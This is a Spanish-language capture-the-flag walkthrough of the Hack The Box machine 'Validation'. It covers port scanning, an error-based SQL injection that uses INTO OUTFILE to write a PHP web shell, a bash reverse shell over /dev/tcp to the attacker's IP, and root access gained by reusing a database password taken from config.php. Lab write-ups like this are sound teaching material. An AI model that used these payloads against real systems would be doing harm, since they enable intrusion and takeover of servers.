






Validation es una máquina Linux de dificultad fácil que presenta una aplicación web susceptible a una Inyección SQL. Capitalizando en esta vulnerabilidad, un atacante puede inscribir un web shell en el sistema, conduciendo a la Ejecución Remota de Código ( RCE ). Tras el punto de apoyo inicial, la escalada de privilegios se logra a través de la explotación de una contraseña de base de datos reutilizada, que conduce al acceso de nivel raíz a la máquina

# kills

- HTML Injection
- SQLI (Error Based)
- SQLI -> RCE (INTO OUTFILE)
- Information Leakage

# Information Gathering

Primero vemos si tenemos conexion con la maquina:

```bash
ping -c 1 10.10.11.116 
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=155 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 154.671/154.671/154.671/0.000 ms
```

Iniciamos un escaneo de puertos:

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn -sS 10.10.11.116 -oG nmap 

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
4566/tcp open  kwtc
8080/tcp open  http-proxy
```

Ahora a ver que versiones tenemos en cada uno de los servicios de cada puerto:

```bash
nmap -sCV -p22,80,4566,8080 10.10.11.116 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## Port 80 - http (Apache httpd 2.4.48)


Vamos a interceptar esto con nuestro Burp Suite, para ver que podemos ver en la peticion de esta web



Interesante, probaremos varias cositas en estos campos de abajo:

## HTML Injection

En el campo de name podemos meter codigo html y la web lo interpreta en el account.php:

```html
<span style="color: #33acff">Mil4ne</span>
```

Cambiamos el color del name a azul:



Pero no podemos injectar codigo php para enviarnos una shell, ya que todo el name se guarda dentro de un ``<h1>``

## SQLI (Error Based)

Encontramos una SQLI en el campo de ``country``





podemos ver el nombre de la base de datos en la pagina.

# Explotation

Intentamos Introducir un archivo php mediante la SQLI con nuestro codigo malisioso:

```bash
username=mil4ne&country=Afganistan' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE
'/var/www/html/shell.php'-- -
```




al hacer el Forward la pagina nos da un error raro, pero lo ignoramos y pasamos a probar si logramos crear el shell.php.

```bash
curl http://10.10.11.116/shell.php?cmd=ls
<span style="color: #33acff">Mil4ne</span>
account.php
config.php
css
index.php
js
shell.php
```

logramos ejecutar comandos en la maquina victima, ahora nos vamos a enviar una Reverse Shell a nuestra maquina:

```bash
nc -nlvp 9001 
listening on [any] 9001 ...
```

Generamos una revshell, por aqui te dejo una pagina util para esto: https://www.revshells.com/

```bash
curl http://10.10.11.116/shell.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"'
```



Ahora hay que hacer tratamiento de tty:

```bash
script /dev/null -c bash
```

Script started, file is /dev/null

```
^Z
```

```bash
stty raw -echo; fg
```

```bash
[1]  + continued  nc -nlvp 9001
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

# Privilege Escalation

al entrar a la maquina lo primero que vemos es un config.php, que contiene esto:

```bash
ww-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Encontramos una password, vamos a ver si nos sirve para algun usuario:

```bash
www-data@validation:/var/www/html$ su -
Password: uhc-9qual-global-pw
```

Con esto completamos la maquina, gracias por leer.